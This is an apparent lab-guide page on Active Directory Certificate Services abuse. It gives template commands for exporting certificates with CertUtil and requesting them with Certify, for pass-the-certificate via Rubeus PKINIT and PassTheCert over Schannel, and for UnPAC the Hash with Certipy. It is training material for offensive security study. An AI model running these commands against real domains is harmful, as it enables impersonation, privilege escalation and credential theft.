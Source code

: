  



With appropriate privileges, it is possible to request, import, or export user or machine certificates from a machine. There are several ways to accomplish this interactively (using Windows Certificate Manager) or through Crypto WINAPIs.

To request, import, or export using Crypto WINAPIs, we can use tools such as Certify and CertUtil.

---

**Request Certificate in PEM Format:**
```powershell
certify.exe request /ca:ca.corp\CA /template:User
```

**Import Certificate into User Certificate Store:**
```powershell
certutil –user –importpfx C:\certs\user.pfx
```

**Export Certificate from User Certificate Store using Certificate Serial:**  
```powershell
certutil -user -exportpfx 5500000019b448b6ebb68c9b09000000000019 C:\certs\user.pfx
```



With a certificate valid for authentication (Client Authentication EKU set), it is possible to request a TGT using the PKINIT protocol. We will be using this technique for user/computer impersonation for the majority of the lab.

---

**Basics of AD CS Abuse – PTC using PKINIT:**  
```powershell
Rubeus.exe asktgt /user:<username in certificate> /certificate:<certificate name> /password:<certificate password> /domain:<domain name> /dc:<domain DC> /nowrap /ptt
```


We can use the **PassTheCert** tool for authentication as follows:

- If we manage to gain a privileged user context in the domain, we can primarily use the PassTheCert tool to configure and abuse RBCD/Reset Password/DCSync, and more in Active Directory.

---

**Basics of AD CS Abuse – PTC using Schannel:** 
```powershell
PassTheCert.exe --server dc.corp --cert-path C:\certs\user.pfx --cert-password
```


An example command to perform the UnPAC the Hash (note the `/getcredentials` option):

- An example command to perform the UnPAC the Hash attack using Certipy is as follows:

---

**UnPAC the Hash Attack using Certipy**
```powershell
certipy auth -pfx /mnt/c/certs/user-unprotected.pfx
```
